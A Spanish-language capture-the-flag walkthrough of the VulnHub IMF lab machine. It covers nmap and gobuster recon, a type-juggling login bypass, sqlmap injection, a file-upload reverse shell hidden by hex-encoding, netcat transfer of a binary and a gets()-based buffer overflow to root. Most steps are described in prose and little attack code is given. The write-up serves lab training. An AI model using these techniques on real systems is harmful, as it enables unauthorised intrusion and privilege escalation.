




# IMF — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — IMF (link arriba)  
**Objetivo:** Encontrar las flags disponibles y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró unicamente el servicio HTTP.  
- La web reveló cadenas en base64 con un directorio de login. Se encuentra vulnerabilidad `type juggling` → acceso como `rmichaels`.  
- Ataque SQLI con `sqlmap` dentro del panel de login → acceso a imagen `whiteboard.jpg` con código QR.  
- Encontré panel de subida de archivos → `r.shell.php` -> acceso remoto
- Ingenieria inversa a binario `agent` y `buffer overflow`.  

# 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.74**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.74` (confirma Linux).


## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.74 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (80):

```bash
nmap -sCV -p21,22,80 192.168.1.74
```


Resultados clave: 
- 80/tcp HTTP  

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.74/
```


Página con un logo con la leyenda IMF - Impossible Mission Force. El código fuente alberga la primer flag.


Inspeccionando detenidamente el código fuente encuentro una nueva cadena de base64 oculta y divida en tres partes.





La cadena contiene una nueva dirección `/imfadministrator/` con un panel de login.


Un apartado contiene nombres de colaboradores y virtual hosting. Los almaceno para usarlos posteriormente y agrego la ruta al `/etc/hosts`.


 ## 4) Fuzzing de directorios
Fuzzing con `gobuster` para buscar directorios y archivos de interes:

```bash
gobuster dir -u http://192.168.1.74/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Descubro `/images/`, `projects.php` y `contact.php`. No hay información reelevante


## 5) Panel login
Regreo al panel de acceso e inspección manualmente el HTML que mostró un mensaje indicando que el panel está protegido contra inyecciones sql.


## 6) BurpSuite
Realizo diferentes pruebas con el `repeater`. Logro acceder aplicando un `type juggling`.


## 7) SQLI 
Dentro del panel reviso la url `imfadministrator/cms.php?pagename=`, lo que me anima a usar `sqlmap`.

```bash
sqlmap -u 'http://imf.local/imfadministrator/cms.php?pagename='
```


`sqlmap` devuelve información sobre un archivo oculto `whiteboard.jpg`. La imagen contiene un código QR con una flag y un nuevo directorio.




## 8) Acceso y enumeración local
El nuevo directorio alberga un panel de subida de archivos. Intercepto la petición con `BurpSuite` para comenzar las pruebas. Se logra subir el archivo con la reverse shell al codificar la palabra `system` en hexadecimal. Procedo a leer la bandera número 5




Al convertir la nueva bandera (base64) a texto plano encuentro el texto `agentservices`. Procedo a usar `find` para buscar archivos con ese nombre. 

``` bash 
find -name agent 2>/dev/null | xargs ls -la
```


Inspecciono los dos binarios resultantes


El segundo binario necesita que se proporcione un ID para poder funcionar; debido a esto, usamos `netcat` para traer el archivo a local.

```bash
nc -lvp 666 > agent
nc 192.168.1.80 666 < agent
```

## Busqueda de ID

Uso `ltrace` para ver a bajo nivel que es lo que pasa al ejecutar el binario y consigo el ID.


## l2) Buffer Overflow:
Ya con el ID en nuestro poder, procedo a probar el binario y logro encontrar un desbordamiento del buffer mediante la opción 3.


a) Aplico un `file agent` para obtener información sobre el binario y ejecutar el bof


b) Busco la función `report` y encuentro la variable `local_a8` con un tamaño de buffer de 164 bytes. Además, hace uso de `gets` que es considerada como una función vulnerable.


c) En este punto llevo a cabo el buffer overflow y consigo crear una shell como el usuario root y la flag final.

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.74 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.74
whatweb http://192.168.1.74/
gobuster dir -u http://192.168.1.74/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
sqlmap -u 'http://imf.local/imfadministrator/cms.php?pagename='
find -name agent 2>/dev/null | xargs ls -la
ltrace agent
```

## Conclusión
IMF es un CTF clasificado como fácil-intermedia pero a mi parecer se encuentra más en un nivel medio pues se necesita tener experiencia previa con más CTFs. Aunque el bof sea básico, puede resultar desafiante si no se esta familiarizado con dicha técnica. Pese a que el reto es más complicado de lo previsto, ayuda al pensamiento lateral y conocimientos más avanzados.